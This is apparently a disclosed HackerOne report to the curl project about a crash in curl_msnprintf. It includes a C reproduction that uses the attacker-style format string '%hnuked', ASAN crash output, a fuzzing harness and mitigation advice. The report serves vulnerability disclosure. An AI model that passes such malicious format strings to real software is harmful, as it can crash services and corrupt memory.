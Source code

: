 # Format string vulnerability, curl_msnprintf() function 

## Report Details
- **Report ID**: 2990139
- **URL**: https://hackerone.com/reports/2990139
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2025-02-12T12:30:43.646Z
- **Disclosed**: 2025-02-20T10:58:01.533Z

## Reporter
- **Username**: orcahack
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:

A vulnerability has been identified in the curl library’s formatted output functions (specifically in curl_msnprintf and its related functions). When a malicious (attacker-controlled) format string containing the %hn conversion specifier is passed, the function incorrectly attempts to write the number of characters printed into a pointer that is not provided by the caller. This leads to a misaligned memory write (as demonstrated by a write to address 0x000000000001), resulting in undefined behavior and a crash. Although the API documentation warns that these functions are to be used with controlled format strings, the internal handling of %hn should not lead to such dangerous memory accesses even with untrusted input.

The curl_mprintf family (including curl_msnprintf) is designed to behave like standard printf-style functions. According to the documentation, these functions expect a valid format string and matching arguments. However, when a malicious format string such as "%hnuked" is used, no corresponding argument is provided for the %hn specifier. This causes the internal formatting routine (in mprintf.c, line 1047) to dereference an invalid pointer (which turns out to be 0x000000000001) and attempt a store of a short value. Because the address is both misaligned and invalid, this results in a memory safety violation (as detected by AddressSanitizer with a misaligned store error).

## Affected version
latest version from git

## Steps To Reproduce:
The following C code :

```
#include <stdio.h>
#include <curl/mprintf.h>

int main(void) {
    char buffer[256];
    const char *malicious_format = "%hnuked"; 
    printf("Using malicious format string: \"%s\"\n", malicious_format);
    curl_msnprintf(buffer, sizeof(buffer), malicious_format);
    printf("Formatted output: %s\n", buffer);
    return 0;
}
```
Should be compiled with AddressSanitizer enabled :

` clang-14 -fsanitize=address vuln-curl.c -I include/ -o vuln-curl   ./lib/.libs/libcurl.a -lz -lpsl -lbrotlidec `

So running it will result in the following ASAN log :

```
./vuln-curl 
Using malicious format string: "%hnuked"
mprintf.c:1047:9: runtime error: store to misaligned address 0x000000000001 for type 'short', which requires 2 byte alignment
0x000000000001: note: pointer points here
<memory cannot be printed>
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior mprintf.c:1047:9 in 
AddressSanitizer:DEADLYSIGNAL
=================================================================
==80435==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000001 (pc 0x5d47e8ac3191 bp 0x7fff9e689450 sp 0x7fff9e6877e0 T0)
==80435==The signal is caused by a WRITE memory access.
==80435==Hint: address points to the zero page.
    #0 0x5d47e8ac3191 in formatf /home/test/Documents/curl/lib/mprintf.c:1047:34
    #1 0x5d47e8abf553 in curl_mvsnprintf /home/test/Documents/curl/lib/mprintf.c:1080:13
    #2 0x5d47e8ac49ad in curl_msnprintf /home/test/Documents/curl/lib/mprintf.c:1100:13
    #3 0x5d47e8abf2ed in main (/home/test/Documents/curl/vuln-curl+0x2bb2ed) (BuildId: 9d173a19c9f17931aa243f138ec604086bb81fa9)
    #4 0x70b736e29d8f in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #5 0x70b736e29e3f in __libc_start_main csu/../csu/libc-start.c:392:3
    #6 0x5d47e8a015e4 in _start (/home/test/Documents/curl/vuln-curl+0x1fd5e4) (BuildId: 9d173a19c9f17931aa243f138ec604086bb81fa9)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /home/test/Documents/curl/lib/mprintf.c:1047:34 in formatf
==80435==ABORTING
```

The following supporting libfuzzer harness will also trigger the same bug :

```
#include <cstring>
#include <random>
#include "curl_hmac.h"
extern "C" int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    if (size == 0) return 0;
    // Create a buffer to hold the formatted string
    char buffer[256];
    
    // Ensure the input data is null-terminated
    std::vector<uint8_t> null_terminated_data(data, data + size);
    null_terminated_data.push_back(0);
    // Use curl_msnprintf to format the input data
    curl_msnprintf(buffer, sizeof(buffer), reinterpret_cast<const char *>(null_terminated_data.data()));
    // Open a file to write the output
    FILE *out_file = fopen("output_file", "wb");
    if (!out_file) {
        return 0;
    }
    // Write the formatted string to the file
    fwrite(buffer, sizeof(char), strlen(buffer), out_file);
    fclose(out_file);
    // Simulate a CURLUcode error and get the error string
    CURLUcode error_code = CURLUE_BAD_HANDLE;
    const char *error_str = curl_url_strerror(error_code);
    // Open the input data as a file for reading
    FILE *in_file = fmemopen((void *)data, size, "rb");
    if (in_file) {
        // Read headers from the input file using curl_pushheader_byname
        struct curl_pushheaders *headers = nullptr;
        char *header_value = curl_pushheader_byname(headers, "Content-Type");
        if (header_value) {
            free(header_value);
        }
        fclose(in_file);
    }
    return 0;
}
```

Recommendation:
Review and adjust the internal handling of dangerous conversion specifiers (such as %n and %hn) in the curl_mprintf implementation. Consider sanitizing or outright rejecting format strings that contain %n conversions when they could result in writing to uncontrolled memory locations.

References:

curl_mprintf documentation
ASAN output from the reproduction scenario

## Impact

## Summary:

Crash: In a scenario where untrusted input reaches curl_msnprintf (or similar functions), an attacker could force a denial-of-service by crashing the application.
Potential Exploitability: Although the immediate impact is a crash, memory corruption—even with a 2-byte misaligned write—could be leveraged further in some environments to achieve code execution, depending on additional context and heap state.

## Attachments
No attachments
